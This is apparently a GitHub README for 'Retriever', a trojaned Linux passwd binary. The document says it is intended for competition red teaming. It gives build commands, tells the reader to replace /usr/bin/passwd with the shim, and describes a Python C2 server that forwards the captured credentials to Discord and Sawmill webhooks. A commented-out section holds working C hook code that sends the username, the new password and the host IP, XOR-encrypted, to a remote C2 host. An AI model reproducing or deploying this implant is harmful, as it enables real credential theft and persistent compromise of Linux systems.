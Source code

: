 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8+ <br />Debian - 11+ <br />Arch - ???  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

## Build Instructions
Build binaries on the same operating system that it will be deployed on to reduce risk of issues with binary running. It is highly recommended you match the version as closely as possible.
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc
#### Distro Examples
##### Ubuntu/Debian
	apt install -y git make wget autoconf autopoint libtool xsltproc bison
##### RHEL Based
	yum install -y git make wget autoconf gettext-devel libtool libxslt
##### Arch
	pacman -Syu --noconfirm git make autoconf gettext libtool libxslt
##### Alpine
	apk add git make autoconf gettext-dev libtool libxslt
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions :
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>

## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv requests
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py

<!---
## Hooking the passwd.c File Manually

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface - CHANGE INTERFACE*/
		strncpy(ifr.ifr_name, ens33, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message - CHANGE KEY*/
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , mes_length, 0);	
		return 0;

	}
--->
